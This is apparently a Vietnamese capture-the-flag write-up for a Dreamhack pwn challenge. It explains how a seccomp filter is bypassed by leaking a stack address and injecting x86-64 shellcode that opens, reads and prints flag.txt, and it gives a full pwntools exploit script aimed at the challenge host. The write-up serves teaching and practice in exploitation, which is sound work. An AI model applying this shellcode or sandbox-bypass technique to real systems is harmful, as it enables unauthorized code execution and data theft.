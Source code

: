 # Decription

[![](images/2025-07-30_04-47.png)](https://dreamhack.io/wargame/challenges/2076)

# Source

![](images/main.png)

# Problem

Trong hàm main ta thấy có 5 seccomp rule được thêm.

Sử dụng seccomp-tools để biết rõ hơn về các syscall được phép.

![](images/seccomp.png)

Ta thấy rằng được phép read, write và exit.

open chỉ được phép khi filename thỏa mãn địa chỉ. Khả năng đó chính là địa chỉ flag.

Vậy ta sẽ lợi dụng shellcode để lấy flag.

# Solve

Mở gdb và đặt breakpoint

```c
gef➤  checksec
[+] checksec for '/home/long/Downloads/dreamhack/pwn/passfor/main'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

Xem trong main ta thấy shellcode được thực thi trong rdx

```c
   0x0000000000001402 <+473>:   mov    rdx,QWORD PTR [rbp-0x30]
   0x0000000000001406 <+477>:   mov    eax,0x0
   0x000000000000140b <+482>:   call   rdx
```

Tôi chạy seccomp-tools nhiều lần và nhận ra rằng 12bits cuối của địa chỉ filename không thay đổi là 030. Việc chúng ta cần làm là leak địa chỉ trong cùng vùng nhớ với filename để tính offset.


Ý tưởng là in ra 1 lượng lớn bytes trên stack và nhận lại địa chỉ cùng vùng nhớ với filename. Sau đó ta nhập địa chỉ filename lên stack và nội dung là flag.txt. Sau đó open->read-> write.

```c
    mov rax, 0x1
    mov rsi, rsp
    mov rdi, 1
    mov rdx, 0x100
    syscall
```

![](images/exeleak.png)

Tôi nhận được 6 bytes exe leak được. Thật may mắn vì có 1 addresss có 12 bits cuối là 030 và 16 bits đầu là 5643. Khá là giống với những seccomp tôi đã chạy. ( hãy chạy seccomp nhiều lần để thấy nó có quy luật như vậy).

Tôi nghĩ đó chính là filename mà tôi cần tìm.

Vậy tiếp theo chúng ta cần nhập filename lên stack và cho nó trỏ vào flag.txt. Vì chúng ta cần làm là open filename rồi read sau đó write.

```c
// Nhập địa chỉ filename
    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, rsp
    syscall

//Nhập flag.txt vào con trỏ của filename
    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, [rsp]
    syscall
    
// open flag.txt
    mov rax, 0x2
    mov rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    syscall
//read flag.txt
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall
//write flag
    mov rdi, 1
    mov rsi, rsp
    mov rdx, 0x100
    mov rax, 1
    syscall
```

![](images/flag.png)


# Full Script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* main+165
b* main+473
b* main+482
        c
        ''')
        input()

if args.REMOTE:
    p = remote('host8.dreamhack.games', 11819)
else:
    p = process([exe.path])
GDB()



shellcode = asm('''

    mov rax, 0x1
    mov rsi, rsp
    mov rdi, 1
    mov rdx, 0x100
    syscall

    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, rsp
    syscall

    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, [rsp]
    syscall

    mov rax, 0x2
    mov rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall

    mov rdi, 1
    mov rsi, rsp
    mov rdx, 0x100
    mov rax, 1
    syscall


''')

sla(b'spell > ', shellcode)
p.recv(23)
p.recv(48)
filename =u64(p.recv(6)+ b'\x00\x00')
print(hex(filename))


sl(p64(filename))
# input('Flag')
s(b'flag.txt')
p.interactive()
```



